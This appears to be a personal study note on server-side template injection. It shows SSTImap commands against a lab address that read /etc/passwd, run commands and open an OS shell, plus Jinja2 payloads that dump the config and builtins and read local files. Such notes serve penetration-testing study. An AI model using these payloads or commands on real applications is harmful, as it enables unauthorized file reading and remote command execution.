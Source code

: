 >[!code]- Identify SSTI
>###### Manually
>Inject a payload consisting of a string which contains chars typically used by templating engines:
>
>![[Images/Pasted image 20250715082003.png]]
>
>>[!code]- Webpage with a SSTI vulnerability
>>![[Images/Pasted image 20250715082054.png]]
>
>Injecting the above mentioned payload gives an error:
>
>![[Images/Pasted image 20250715082213.png]]
>
>###### Automatically (tplmap)
>```powershell
>python3 sstimap.py -u http://172.17.0.2/index.php?name=test
>
># Download a remote file to local machine
>python3 sstimap.py -u http://172.17.0.2/index.php?name=test -D '/etc/passwd' './passwd'
>
># Execute a system command
>python3 sstimap.py -u http://172.17.0.2/index.php?name=test -S id
>
># Obtain an interactive shell
>python3 sstimap.py -u http://172.17.0.2/index.php?name=test --os-shell
>```
>>[!code]- Example (stimap.py -u http://172.17.0.2/index.php?name=test)
>>![[Images/Pasted image 20250717063724.png]]
>

>[!code]- Identify the templating engine
>The successful injection of certain strings can lead us to identify the templating engine in effect (follow green arrow for success, red for failure):
>
>![[Images/Pasted image 20250715082403.png]]
>
>`{{7*'7'}}` will equal `7777777` with Jinja and `49` with Twig
>
>>[!code]- Example of using the graph
>>![[Images/Pasted image 20250715082538.png]]

>[!code]- PayloadsAllTheThings - SSTI
>https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md

>[!code]- Exploiting SSTI (Jinja2)
>###### Information Disclosure
>```powershell
>{{ config.items() }} # config file
>```
>>[!code]- Result
>>![[Images/Pasted image 20250715085544.png]]
>
>```powershell
>{{ self.__init__.__globals__.__builtins__ }} # reveal Python variables and built-in functions
>```
>>[!code]- Result
>>![[Images/Pasted image 20250715085645.png]]
>
>###### Local File Inclusion (LFI)
>```python
>{{ self.__init__.__globals__.__builtins__.open("/etc/passwd").read() }} # python
>```
>>[!code]- Result
>>![[Images/Pasted image 20250715085827.png]]